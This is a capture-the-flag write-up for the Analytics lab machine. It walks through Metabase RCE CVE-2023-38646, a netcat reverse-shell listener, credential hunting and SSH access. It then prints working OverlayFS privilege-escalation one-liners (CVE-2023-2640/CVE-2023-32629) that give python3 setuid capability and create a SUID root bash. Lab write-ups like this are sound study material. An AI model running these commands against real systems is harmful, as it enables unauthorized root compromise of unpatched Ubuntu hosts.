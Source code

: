 ````markdown
# Analytics CTF Room Writeup

Target:analytical.htb  
Goal: Initial RCE via Metabase (CVE-2023-38646), user shell, then root via OverlayFS kernel exploit (CVE-2023-2640 & CVE-2023-32629)


````
## 1. Initial Recon & Enumeration

Started with a full TCP port scan:  
```bash
nmap -p- -sV -T4 analytical.htb


Found port **80** open, HTTP running.
Added domain to `/etc/hosts` for convenience:

```
10.10.x.x analytical.htb
```

Visited `http://analytical.htb` → Redirected to Metabase login page.

---

## 2. Subdomain Bruteforce & Discovering Data

Used subdomain enumeration tools (like `gobuster` or `ffuf`) to find:
`data.analytical.htb` → another Metabase login page.

---

## 3. Metabase Version & RCE CVE-2023-38646

Searched for Metabase exploits → found CVE-2023-38646, an RCE in Metabase’s API.

Checked API for version and token needed:

```bash
curl http://data.analytical.htb/api/session/properties
```

Got version info and confirmation this version is vulnerable.

---

## 4. Getting a Reverse Shell

Set up a Netcat listener on local machine:

```bash
nc -lvnp 4444
```

Used the CVE PoC/exploit with the token from above → got reverse shell as `metabase` user.

---

## 5. Post-Exploitation: Finding Credentials

On the shell, ran:

```bash
env
```

Saw some environment variables with username and password hints.

Next, ran:

```bash
strings metabase.db.mv.db | grep -Eo '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}'
```

Got emails, looked for those related to our user.

Used these emails and guessed passwords (or reused found creds) to log into the Metabase web interface.

---

## 6. SSH Access

Using found credentials, tried SSH:

```bash
ssh user@analytical.htb
```

Login successful.

Grabbed user flag.

---

## 7. Kernel and OS Info

Ran:

```bash
uname -a
lsb_release -a
```

Found kernel: `6.2.0-25-generic`
Ubuntu release: `22.04.03`

---

## 8. Root Privilege Escalation – OverlayFS Kernel Exploit

Looked for Ubuntu kernel exploits for this version → found CVE-2023-2640 & CVE-2023-32629.

The exploit abuses OverlayFS to gain root privileges by mounting OverlayFS with a crafted setup and copying python3 with elevated capabilities.

---

## 9. Running the Exploit

Run this command:

```bash
unshare -rm sh -c "
mkdir l u w m &&
cp /usr/bin/python3 l/ &&
setcap cap_setuid+eip l/python3 &&
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m &&
touch m/*;"
```

This starts a new shell with root privileges inside a user namespace, creates necessary folders, copies python3 and gives it special capabilities, mounts OverlayFS combining those folders, and triggers a copy preserving root capabilities.

Then run:

```bash
u/python3 -c 'import os; os.setuid(0); os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

This runs the python3 with root privileges, copies bash to `/var/tmp/bash`, sets it as SUID root executable, runs it to spawn a root shell, then cleans up.

---

## 10. Final Result

gained root access by running the SUID bash shell at `/var/tmp/bash`:

```bash
/var/tmp/bash -p
```

Now I can read the root flag and fully control the machine.
